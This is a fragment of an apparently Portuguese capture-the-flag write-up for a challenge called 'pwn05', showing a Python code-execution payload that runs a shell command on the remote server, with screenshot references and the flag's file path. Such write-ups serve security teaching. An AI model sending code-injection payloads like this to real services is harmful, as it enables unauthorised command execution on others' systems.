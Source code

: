 ```
__import__("os").system("whoami")
```

Nos conectamos ao servidor e enviamos.

<img src="images/Pasted image 20230827135821.png">

<img src="images/Pasted image 20230827135846.png">

A flag foi encontrada no caminho ```/srv/pwn05/flag.txt```.

<img src="images/Pasted image 20230827135940.png">
